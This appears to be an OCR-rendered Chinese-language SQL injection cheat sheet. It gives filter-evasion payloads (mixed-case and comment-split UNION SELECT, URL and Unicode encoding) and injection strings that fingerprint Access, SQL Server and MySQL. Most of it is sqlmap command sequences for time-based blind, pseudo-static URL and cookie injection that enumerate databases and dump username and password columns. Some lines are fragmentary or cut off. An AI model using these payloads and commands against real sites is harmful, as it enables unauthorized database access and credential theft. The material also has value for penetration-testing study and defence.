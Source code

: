 “and (length(database()))>0-- URL编码：%22and%20(length(database()))%3E0 +UnIon/\*\*/SeLecT 1,2,3 /!UnIon/SeLecT 1,2,3 id=181+(union)+(sel)+(ct)+1,2,3

.asp?id=1 and true# 对a进行Unicode编码 asp?id=1 %61nd true#

sqlmap的使用 sqlmap是sql注入最常用的工具之一，比起手工注入，使用sqlmap的速度往往会更快。但不是所有注入都可以用sqlmap，有时手工也非常的重要。 判断是否存在注入：sqlmap -u “http://127.0.0.1/new\_list.php?id=1” 爆数据库名： sqlmap -u “http://127.0.0.1/new\_list.php?id=1” --dbs 爆指定数据库名的表名： sqlmap -u “http://127.0.0.1/new\_list.php?id=1” -D “数据库名” --table 爆指l列名： sqlmap -u “http://127.0.0.1/new\_list.php?id=1” -D “数据库名” -T “表名” --columns 直接爆列名内容： sqlmap -u “http://127.0.0.1/new\_list.php?id=1” -D “数据库名” -T “表名” --columns --dump ————————————————1. MySQL数据库注入

* 检查注入点(主要看是否能返回消息)：`sqlmap.py -u url`
* 爆所有库：`sqlmap.py -u url -dbs`
* 爆当前库：`sqlmap.py -u url --current-db`

#### 2.Access数据库注入

* 判断是否是access数据库：`url and exists(select id from MSysAccessObjects)` **其他数据库判断语句：**

> **Access:** aNd aSc(cHr(97))=97 **Access:** and exists(select id from MSysAccessObjects) **SQL Server:** and exists(select id from sysobjects) **SQL Server:** and length(user)>0 **MySQL:** and length(user())>

* access数据库没有库的概念，直接爆表`sqlmap.py -u "url" --tables`
* 爆列，爆字段，可以在日志里找到

#### 3. 指定数据库，操作系统

* 检查是否是注入点
* 爆库：`sqlmap.py -u url --dbms mysql 5.0 --current-db`
* 爆表：`sqlmap.py -u url --dbms mysql 5.0 -D cms --tables`
* 爆列：`sqlmap.py -u url --dbms mysql 5.0 -D cms -T cms_user --columns`
* 爆字段：`sqlmap.py -u url --dbms mysql 5.0 -D cms -T cms_users -C password ,username --dump`

#### 4. 请求延时注入

* 测试注入点：`sqlmap.py -u url -p id`
* sqlmap注入方式technique`sqlmap.py -u url --technique T`

> B: 基于Boolean的盲注（Boolean based blind） Q: 内联查询（inlin queries） T: 基于时间的盲注（time based blind） U: 联合查询（union query based） E: 错误（error based） S: 栈查询（stack queries）

* 猜数据库`sqlmap.py -u url --technique T -time-sec 9 --current-db`
* 其他参数：`--delay`，`--safe-freq`

#### 5.常规伪静态注入

\*\*伪静态：\*\*主要是为了隐藏传递的参数名，伪静态只是一种URL重写的手段，既然能接受参数输入，所以并不能防止注入。目前来看，防止注入的最有效的方法就是使用LINQ。

* 加星花：`sqlmap.py -u "url*.html" --dbs`
* 利用sqlmap注入：`sqlmap.py -u "url*.html" --current-db --hex`
* 爆表：`sqlmap.py -u "url*.html" -D "cms" --tables –hex`

#### 6.cookie注入

* burpsuite获得cookie
* sqlmap的cookie注入攻击：`sqlmap.py -u url --cookie “uname=admin" --level 2`
* 爆库，爆表，爆列，爆字段
